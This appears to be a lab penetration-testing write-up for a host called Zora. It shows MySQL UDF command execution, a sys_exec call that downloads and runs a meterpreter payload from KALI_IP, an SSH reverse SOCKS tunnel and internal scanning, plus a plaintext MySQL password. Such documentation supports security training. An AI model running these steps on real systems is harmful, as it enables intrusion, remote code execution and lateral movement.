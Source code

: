 # Zora (10.5.5.11)
***
## Exploitation

1. MySQL root and password was retrieved from `/root/.bash_history` file of Ajla (`10.4.4.10`). We used the credentials to connect to the mysql server.
   
``` 
mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb --host=127.0.0.1 --port=13306
```

> [!info] 
> One of the techniques to execute OS commands using MySQL is through the use of **[User Defined Functions (UDF)](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection/mysql-ssrf#user-defined-functions-to-rce)**. 
> 
> Using our console access (with root privilege), we are able to write a library (`.so`) containing a User Defined Functions (e.g function that execute OS commands) that can be then invoked through additional queries.

2. We've created a function named `sys_exec` (that will execute OS commands), through the use of the following queries. 
```
MariaDB [(none)]> set @shell = 0x<HEX_OF_SO>; select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so'; create function sys_exec returns int soname 'udf_sys_exec.so'; select * from mysql.func where name='sys_exec';
```

3. We downloaded and executed the meterpreter shell into the database server using the command:
```
MariaDB [(none)]> select sys_exec('wget http://KALI_IP/xshell.elf && chmod +x xshell.elf && ./xshell.elf');
```

4. We got our meterpreter shell afterwards.
   ![[zora-meterpreter.png]]
   
***
## Post-exploitation

> [!info] 
> Using our reverse shell, we checked on mounted-share using `cat /etc/fstab`, and we found out that a share is mounted from the `10.5.5.20` host.  The host `10.5.5.20` is only accessible internally, so we have to set up another port forward for us to be able to access it directly from our Kali machine.
> 
> Also, a powershell script named `system_report.ps1` was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`. 
   
1. Using our meterpreter shell, we generated a keypair (`ssh-keygen`) and added zora's  public key to our Kali machine.
``` 
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3Nza....Uzqt4+ns= mysql@zora
```

   
2. We set up a dynamic port forward (SOCKS) from Zora to Kali using port **1080**
   
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@KALI_IP
```

```
kali@kali$ sudo nano /etc/proxychains4.conf
...
...
socks4 127.0.0.1 1080
```

3. From our Kali, we scanned `10.5.5.20` for open ports using the command `proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20` 
We discovered an open port **3389** running **Remote Desktop Protocol (RDP)**.

